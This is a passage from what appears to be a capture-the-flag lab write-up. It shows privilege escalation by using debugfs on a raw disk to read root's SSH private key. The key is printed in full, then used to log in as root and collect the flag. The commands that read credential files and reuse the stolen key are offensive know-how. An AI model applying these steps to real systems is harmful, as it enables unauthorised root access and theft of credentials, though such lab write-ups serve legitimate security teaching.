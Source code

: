 We can use _debugfs_ to enumerate the entire disk with effectively root level privileges.

```text
yossi@falafel:~$ debugfs /dev/sda1
debugfs 1.42.13 (17-May-2015)
debugfs:  cd /root
debugfs:  ls
debugfs:  cd .ssh
debugfs:  ls
debugfs:  cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAyPdlQuyVr/L4xXiDVK8lTn88k4zVEEfiRVQ1AWxQPOHY7q0h
b+Zd6WPVczObUnC+TaElpDXhf3gjLvjXvn7qGuZekNdB1aoWt5IKT90yz9vUx/gf
v22+b8XdCdzyXpJW0fAmEN+m5DAETxHDzPdNfpswwYpDX0gqLCZIuMC7Z8D8Wpkg
BWQ5RfpdFDWvIexRDfwj/Dx+tiIPGcYtkpQ/UihaDgF0gwj912Zc1N5+0sILX/Qd
UQ+ZywP/qj1FI+ki/kJcYsW/5JZcG20xS0QgNvUBGpr+MGh2urh4angLcqu5b/ZV
dmoHaOx/UOrNywkp486/SQtn30Er7SlM29/8PQIDAQABAoIBAQCGd5qmw/yIZU/1
eWSOpj6VHmee5q2tnhuVffmVgS7S/d8UHH3yDLcrseQhmBdGey+qa7fu/ypqCy2n
gVOCIBNuelQuIAnp+EwI+kuyEnSsRhBC2RANG1ZAHal/rvnxM4OqJ0ChK7TUnBhV
+7IClDqjCx39chEQUQ3+yoMAM91xVqztgWvl85Hh22IQgFnIu/ghav8Iqps/tuZ0
/YE1+vOouJPD894UEUH5+Bj+EvBJ8+pyXUCt7FQiidWQbSlfNLUWNdlBpwabk6Td
OnO+rf/vtYg+RQC+Y7zUpyLONYP+9S6WvJ/lqszXrYKRtlQg+8Pf7yhcOz/n7G08
kta/3DH1AoGBAO0itIeAiaeXTw5dmdza5xIDsx/c3DU+yi+6hDnV1KMTe3zK/yjG
UBLnBo6FpAJr0w0XNALbnm2RToX7OfqpVeQsAsHZTSfmo4fbQMY7nWMvSuXZV3lG
ahkTSKUnpk2/EVRQriFjlXuvBoBh0qLVhZIKqZBaavU6iaplPVz72VvLAoGBANj0
GcJ34ozu/XuhlXNVlm5ZQqHxHkiZrOU9aM7umQkGeM9vNFOwWYl6l9g4qMq7ArMr
5SmT+XoWQtK9dSHVNXr4XWRaH6aow/oazY05W/BgXRMxolVSHdNE23xuX9dlwMPB
f/y3ZeVpbREroPOx9rZpYiE76W1gZ67H6TV0HJcXAoGBAOdgCnd/8lAkcY2ZxIva
xsUr+PWo4O/O8SY6vdNUkWIAm2e7BdX6EZ0v75TWTp3SKR5HuobjVKSht9VAuGSc
HuNAEfykkwTQpFTlmEETX9CsD09PjmsVSmZnC2Wh10FaoYT8J7sKWItSzmwrhoM9
BVPmtWXU4zGdST+KAqKcVYubAoGAHR5GBs/IXFoHM3ywblZiZlUcmFegVOYrSmk/
k+Z6K7fupwip4UGeAtGtZ5vTK8KFzj5p93ag2T37ogVDn1LaZrLG9h0Sem/UPdEz
HW1BZbXJSDY1L3ZiAmUPgFfgDSze/mcOIoEK8AuCU/ejFpIgJsNmJEfCQKfbwp2a
M05uN+kCgYBq8iNfzNHK3qY+iaQNISQ657Qz0sPoMrzQ6gAmTNjNfWpU8tEHqrCP
NZTQDYCA31J/gKIl2BT8+ywQL50avvbxcXZEsy14ExVnaTpPQ9m2INlxz97YLxjZ
FEUbkAlzcvN/S3LJiFbnkQ7uJ0nPj4oPw1XBcmsQoBwPFOcCEvHSrg==
-----END RSA PRIVATE KEY-----
debugfs:  quit
```

Save the RSA private key in the file _root\_id\_rsa_ on the attack machine and change the permissions on the file.

```text
chmod 600 root_id_rsa
```

SSH into the root account.

```text
ssh -i root_id_rsa root@10.10.10.73
```

Grab the _root.txt_ flag.
